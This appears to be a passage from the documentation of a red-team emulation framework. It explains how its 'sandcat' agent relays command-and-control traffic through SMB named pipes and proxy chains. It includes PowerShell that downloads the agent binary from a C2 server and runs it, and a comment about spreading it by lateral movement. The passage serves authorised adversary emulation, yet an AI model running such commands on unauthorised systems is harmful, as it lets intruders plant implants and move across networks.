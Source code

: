 Example powershell commands to start an agent and have it directly connect to a peer's SMB pipe proxy receiver:
```
$url="http://192.168.137.122:8888/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$wc.Headers.add("gocat-extensions","proxy_smb_pipe"); # Required extension for SMB Pipe proxy.
$output="C:\Users\Public\sandcat.exe";
$wc.DownloadFile($url,$output);

# ...
# ... transfer SMB Pipe-enabled binary to new machine via lateral movement technique
# ...

# Run new agent
C:\Users\Public\sandcat.exe -server \\WORKSTATION1\pipe\agentpipe -c2 SmbPipe;
```

### Chaining Peer-to-Peer

In complex circumstances, operators can create proxy chains of agents, where communication with the C2 traverses
several hops through agent peer-to-peer links. The peer-to-peer proxy links do not need to all use the same
proxy protocol. If an agent is running a peer-to-peer proxy receiver via the `-listenP2P` command-line flag,
and if the agent uses peer-to-peer communications to reach the C2 (either automatically or manually), then
the chaining will occur automatically without additional user interaction.

Manual example - run peer proxy receivers, but manually connect to another agent's pipe to communicate with the
C2:
```
C:\Users\Public\sandcat.exe -server \\WORKSTATION1\pipe\agentpipe -listenP2P
```

## Peer-To-Peer Interfaces

At the core of the 54ndc47 peer-to-peer functionality are the peer-to-peer clients and peer-to-peer receivers.
Agents can operate one or both, and can support multiple variants of each.  For instance, an agent that cannot
directly reach the C2 server would run a peer-to-peer client that will reach out to a peer-to-peer receiver running
on a peer agent. Depending on the gocat extensions that each agent supports, an agent could run many different types
of peer-to-peer receivers simultaneously in order to maximize the likelihood of successful proxied peer-to-peer
communication. 

Direct communication between the 54ndc47 agent and the C2 server is defined by the Contact interface in the contact.go
file within the `contact` gocat package. Because all peer-to-peer communication eventually gets proxied to the C2 
server, agents essentially treat their peer proxy receivers as just another server. 
